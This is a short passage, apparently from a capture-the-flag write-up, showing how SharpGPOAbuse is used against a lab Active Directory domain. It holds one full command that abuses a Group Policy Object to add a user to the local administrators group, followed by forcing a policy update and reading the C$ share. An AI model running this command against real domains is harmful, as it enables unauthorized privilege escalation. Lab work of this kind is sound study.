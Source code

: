 # GPO
**SharpGPOAbuse**
-----------------

```text-plain
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

this will add our current user `enterprise-security` to the administrators group, we simply need to do an `gpupdate /force`

after this, we can perform any administrator actions, but we used this to acces the `C$` directory in samba, to read the system flag